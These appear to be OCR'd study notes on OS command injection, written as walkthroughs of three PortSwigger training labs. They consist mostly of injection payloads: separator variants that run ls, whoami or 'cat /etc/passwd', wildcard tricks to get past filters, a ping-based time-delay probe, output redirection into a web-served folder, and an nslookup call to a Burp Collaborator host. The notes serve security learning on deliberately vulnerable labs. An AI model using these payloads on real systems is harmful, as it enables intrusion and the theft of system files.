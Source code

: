 o	Here, can inject command in parameter to get execute.

	Example.com/file/?ping=67.78.56.90 %26 cat /etc/passwd
•	Ping 67.78.56.90 & cat /etc/passwd
	example.com/file/?ping=198.168.0.1 || cat /etc/passwd
	example.com/file/?ping=198.168.0.1 ; ls
	example.com/file/?ping=198.168.0.1 ; cat /etc/passwd

•	PORTSWINGER LABS: OS command injection

•	Lab 1: OS command injection, simple case
o	For GET /product?productId=1 HTTP/1.1
o	For POST /product/stock HTTP/1.1
 productId=20&storeId=1
	Here we have to check for both Requests if the parameters are vulnerable or not
	Check: productId=<payload>
•	1;ls
•	1|| ls, 1|ls
•	1%26ls, 1%26%26 ls
•	1` ls1`
•	1(ls)
	Check: storeId=<payload>
•	1;ls
•	1|| ls, 1|ls
•	1%26ls, 1%26%26 ls
•	1` ls1`
•	1(ls)
	If not work that mean there is a case, developer using some other command instead of ping
•	example.com/file/?ping=198.168.0.1
•	./script.sh 198.168.0.1 -flag
o	 To get execute we need to put payload in between ;;
o	./ script.sh 198.168.0.1 ;ls; -flag
o	For storeId=1;ls or storeId=1|whoami
•	TIP: If wants to run cat /etc/passwd but sometimes /etc/passwd get blocked. so, we can use ?? in it
o	cat /e?c/pa??wd
o	cat /e??/p?s??d
	can also try with cookies, headers, user-agents if it is vulnerable.

•	Lab 2: Blind OS command injection with time delays
o	For x||ping+-c+10+127.0.0.1||
csrf=C4juwS5&name=DNwG&email=asfa3af&subject=207&message=783
o	Payload: x||ping+-c+10+127.0.0.1||
o	In this case, result will not show but cmd will execute.
	ping c <seconds> for delaying the page response, Like 2sec. and then ip address
	ping c 4 127.0.0.1

•	Lab 3: Blind OS command injection with output redirection
o	After finding blind os cmd injection by using ping -c <sec> <IP>,now we can find other parameters  which contain filename=
	We can try to give parameter as /feedback/submit
o	Nothing is working and result is not showing,
o	So, we can store the result of passwd file in a passwd.txt file and then try to put this file in any filename= parameter.
o	For POST /feedback/submit HTTP/1.
csrf=WOzYPnme&name=name&email=asd%40asd.com& subject=subje&message=message
	email=|| cat /etc/passwd > passwd.txt ||
	email=||whoami>/var/www/images/whoami.txt||
	email=||whoami>whoami.txt||
o	For GET /image?filename=15.jpg HTTP/1.1
	filename=passwd.txt
	filename=whoami.txt
o	Another way to identify, by using Burp Collaborator Client.
	Burp > Collaborator client > Poll every 1 sec, then Copy to clipboard and paste burp-coll site in ||<>||
	|| nslookup mtj5tqnnseo7assn65k6iw6t.oastify.com ||